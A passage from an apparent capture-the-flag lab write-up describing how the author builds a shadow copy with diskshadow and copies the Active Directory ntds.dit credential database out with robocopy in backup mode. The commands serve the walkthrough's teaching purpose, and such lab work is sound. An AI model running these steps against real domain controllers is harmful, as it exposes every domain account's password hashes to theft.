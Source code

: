 So first we need to convert this backup.txt file to dos file and then transfer it to windows machine.

![image.png](/assets/images/FusionCorpTHM/image%2024.png)

Now we have the fixed file to be transferred to the remote windows machine.

Transffered the file and ran the diskshadow command.

```bash
diskshadow /s backup.txt
```

![image.png](/assets/images/FusionCorpTHM/image%2025.png)

Now we used robocopy to copy the ntds.dit database file to our shadow drive E:\

```bash
robocopy /b E:\windows\ntds . ntds.dit
```
